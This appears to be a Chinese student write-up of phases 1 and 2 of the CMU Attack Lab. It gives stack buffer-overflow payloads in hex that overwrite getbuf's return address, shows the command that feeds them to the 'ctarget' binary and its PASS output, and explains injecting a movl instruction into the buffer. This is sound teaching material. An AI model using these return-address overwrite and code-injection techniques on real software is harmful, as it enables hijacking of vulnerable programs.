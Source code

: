 注意是小端存储。

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00     # 到这里填充完getbuf的栈帧
c0 17 40 00 00 00 00 00     # 这里篡改了ret的返回函数地址
```

我存储为`phase1.txt`

作为参数运行`rtarget`:

```bash
cat phase1.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 

```

## Phase 2

第二个阶段要求带参数进入`touch2`函数，`%rdi`作为第一个参数传递。

问题在于，现在我们可以利用缓冲区溢出，修改上一个栈帧的栈顶，也就是ret指令的返回值。

但是如何执行参数赋值呢？

正常来说带参数调用函数，应该是先对参数赋值，然后进入函数。

```nasm
movl $cookie, %edi
call <touch2>
```

问题就在于如何插入这个movl的攻击代码。

我们唯一能输入的内容只有缓冲区，所以一定在缓冲区内插入我们的代码（而且writeup的提示很明显，让我们使用gcc -c选项和objdump -d来手动获取一个汇编指令的字节码）

根据第一个阶段的注入，我们可以让ret的地址，绕回这个缓冲区，也就是让`%rip`（又名程序计数器PC）来指向这个区域，然后逐条执行攻击代码。

例如下面的输入。假设%rsp在getbuf函数中，值为0xabcde0

那么可以让前一个栈帧（test函数）的栈顶改成0xabcde0

从而`getbuf`内部的ret指令执行时，PC指向0xabcde0，那么这里开始只要注入代码，就可以照常执行攻击代码，从而对`%rdi`赋值cookie

```text
00 00 00 00 00 00 00 00     # 假设这里的地址是0xabcde0  <- %rsp
00 00 00 00 00 00 00 00     # 那么这里的地址是0xabcde8
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00     # 到这里填充完getbuf的栈帧  
e0 cd ab 00 00 00 00 00     # 这里篡改了ret的返回函数地址 <- %rsp + 0x28
```
